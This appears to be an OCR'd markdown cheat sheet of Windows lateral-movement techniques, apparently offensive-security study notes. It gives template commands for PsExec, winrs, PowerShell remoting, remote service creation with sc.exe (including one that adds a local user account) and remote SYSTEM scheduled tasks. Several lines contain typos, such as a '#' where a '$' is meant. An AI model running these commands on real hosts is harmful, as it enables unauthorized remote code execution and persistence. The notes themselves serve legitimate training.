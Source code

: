 # PSEXEC (SYSINTERNALS)

## Ports: 445/TCP 9SMB) 

## Group Memberships: Administrators

## How does it work?

#### 1) Connect to Admin$ share and upload a service binary

#### 2) Connect to the service control manager to create and run a service named psexecsvc and associate the service binary with C:\Windows\psexecsvc.exe

#### 3) Create some named pipes to handle stdin/stdout/stderr 

### Example: 

#### psexec64.exe \\MACHINE_IP -u Administrator -p PASSWORD -i cmd.exe

# WINRM

## Ports: 5985/TCP (WinRM HTTP), 5986/TCP (WinRM HTTPS)

## Group Memberships: Remote Managenemt Users

#### winrs.exe -u:Administrator -p PASSWORD -r:TARGET cmd

# POWERSHELL

## Steps:

#### 1) $username= 'Administrator';

#### 2) $password= 'PASSWORD';

#### 3) #securepassword = ConvertTo-SecureString $password -AsPlaintext -Force;

#### 4) $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword;

#### Enter-PSSession -Computername TARGET -Credential $credential

#### Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}

# SC

## Ports: 135/TCP, 49152-65535/TCP (DCE/RPC) 445/TCP (RPC over SMB named pipes) 139/TCP (RPC over SMB named pipes)

## Group Memberships: Administrators

#### 1) sc.exe \\TARGET create SERVICE binPath= "net user USER PASS /add" start= auto

#### 2) sc.exe \\TARGET start SERVICE

#### 3) sc.exe \\TARGET stop SERVICE

#### 4) sc.exe \\TARGET delete SERVICE

# SCHEDULED TASKS REMOTE CREATION

#### 1) schtasks /s TARGET /ru "SYSTEM" /create /tn "task" /tr "COMMAND/PAYLOAD TO EXECUTE" /sc ONCE /sd 01/01/1970 /st 00:00:00

#### 2) schtasks /s TARGET /run /tn ""task"

#### 3) schtasks /s TARGET /tn "task" /DELETE /F

